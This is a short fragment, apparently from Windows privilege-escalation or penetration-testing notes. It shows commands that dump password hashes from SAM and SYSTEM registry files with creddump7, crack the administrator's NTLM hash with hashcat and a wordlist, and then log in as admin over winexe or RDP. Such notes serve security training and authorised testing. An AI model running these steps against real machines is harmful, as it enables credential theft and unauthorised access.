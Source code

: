 `git clone https://github.com/Tib3rius/creddump7   pip3 install pycrypto  
`python3 creddump7/pwdump.py SYSTEM SAM`

Crack the admin NTLM hash using hashcat:

`hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

You can use the cracked password to log in as the admin using winexe or RDP.

